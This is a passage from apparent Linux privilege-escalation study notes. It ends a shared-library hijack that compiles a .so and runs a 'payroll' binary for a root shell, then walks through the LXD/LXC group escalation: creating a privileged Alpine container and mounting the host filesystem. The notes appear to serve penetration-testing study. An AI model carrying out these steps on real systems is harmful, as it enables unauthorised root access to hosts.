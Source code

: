 #### Compile the binary
```Shell
gcc src.c -fPIC -shared -o /development/libshared.so
```

#### Execute the binary to obtain a root shell
```Shell
./payroll 
```
![[Pasted image 20230310120237.png]]


## Privileged Groups

### LXC / LXD
Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`

#### Enumerate Group Memberships
```Shell
id
```

#### Unzip the Alpine image
```Shell
unzip alpine.zip
```

#### Start the LXD initialization process
```Shell
lxd init
```

#### Choose the defaults for each prompt
![[Pasted image 20230310120533.png]]
[More information on setting up and using LXD on Ubuntu 16.04](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)

#### Import the local image
```Shell
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

#### Start a privileged container with the `security.privileged` set to `true `to run the container without a UID mapping
```Shell
lxc init alpine r00t -c security.privileged=true
```
This makes the root user in the container the same as the root user on the host

#### Mount the host file system
```Shell
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```
